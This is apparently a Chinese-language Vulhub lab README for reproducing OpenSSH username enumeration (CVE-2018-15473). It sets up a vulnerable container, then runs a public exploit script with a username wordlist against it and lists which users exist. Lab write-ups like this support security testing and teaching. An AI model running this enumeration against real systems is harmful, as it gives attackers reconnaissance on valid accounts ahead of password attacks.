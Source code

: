 # OpenSSH 用户名枚举漏洞（CVE-2018-15473）

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

参考链接：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 漏洞环境

执行如下命令，编译及启动一个运行OpenSSH 7.7p1的容器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们在客户端执行`ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`，输入密码`vulhub`，即可登录到容器中。

## 漏洞复现

使用[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)，枚举字典中的用户名：

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`是不存在的用户。
